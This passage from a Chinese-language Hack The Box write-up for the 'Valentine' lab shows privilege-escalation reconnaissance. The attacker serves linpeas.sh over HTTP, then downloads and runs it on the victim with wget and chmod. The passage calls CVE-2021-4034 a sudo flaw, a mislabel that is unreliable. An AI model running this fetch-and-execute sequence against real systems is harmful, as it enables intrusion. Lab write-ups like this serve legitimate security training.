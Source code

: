 ![image-20230429170722849](resource/012-Valentine.assets/image-20230429170722849.png)



## root shell

上传linpeas.sh进行信息搜集，利用Python和wget进行上传

```shell
# kali
┌──(xavier㉿kali)-[~/Desktop/HTB/tools]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.79 - - [29/Apr/2023 17:10:53] &#34;GET /linpeas.sh HTTP/1.1&#34; 200 -

# Victim
hype@Valentine:/tmp$ wget http://10.10.14.22/linpeas.sh
hype@Valentine:/tmp$ chmod &#43;x linpeas.sh
hype@Valentine:/tmp$ ./linpeas.sh &gt; result.txt
```

利用同样的方式，再把result.txt下载到本地

### CVE-2021-4034

查看result.txt，发现系统存在sudo CVE-2021-4034漏洞，可利用该漏洞提权。

![image-20230429172250485](resource/012-Valentine.assets/image-20230429172250485.png)
